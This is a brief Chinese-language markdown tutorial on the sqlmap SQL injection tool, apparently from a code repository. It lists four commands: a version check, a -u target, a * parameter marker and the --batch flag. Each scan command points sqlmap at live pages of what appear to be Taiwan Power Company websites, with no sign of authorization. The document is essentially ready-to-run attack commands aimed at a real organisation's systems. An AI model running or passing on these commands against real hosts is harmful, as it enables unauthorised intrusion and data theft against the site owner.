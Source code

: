 # 如何使用 sqlmap

### 檢查 sqlmap 有沒有安裝
```sh
sqlmap --version
```

### 指定目標，後面加 -u
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```

### 用預設答案回答所有 sqlmap 問題，後面加 --batch
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44" --batch
```
